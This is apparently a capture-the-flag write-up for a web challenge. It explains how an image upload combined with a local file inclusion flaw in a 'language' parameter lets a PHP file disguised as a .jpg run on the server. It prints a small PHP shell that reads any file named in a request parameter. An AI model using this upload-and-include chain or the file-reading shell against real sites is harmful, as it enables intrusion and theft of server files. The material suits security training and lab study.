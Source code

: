 # Challenge Statement 
![image](https://github.com/user-attachments/assets/e9f72d09-1e0c-4cb7-8a11-01be8532e699)

Attachment: [Who is JH.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Who%20is%20JH.zip)

# Solution
Exploring the webapp, we find `/upload.php` where we can upload image files only (JPG, PNG, GIF).
![image](https://github.com/user-attachments/assets/49e91284-1289-4518-a5a8-5ddc35909057)

We also find the `/conspiracy.php` which has two language filters which changes the URL to `?language=languages/french.php`. This indicates the possibility of a **LFI vulnerability**. <br />

Going through the source code, we find `log.php`, which shows `/logs/site_log.txt` where all the logs are being stored. Here we can see that the uploaded files are being renamed. <br />
![image](https://github.com/user-attachments/assets/979ab69b-e313-4349-b62e-9ecbd0fb5dd6)

Now we just have to upload a php file with the .jpg extension and using `/conspiracy.php?language=uploads/(.php.jpg file)` we can execute it. <br />
The php file I used it - 
```
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
![image](https://github.com/user-attachments/assets/283efb94-662c-4f11-ba51-5d2e4d591e7f)

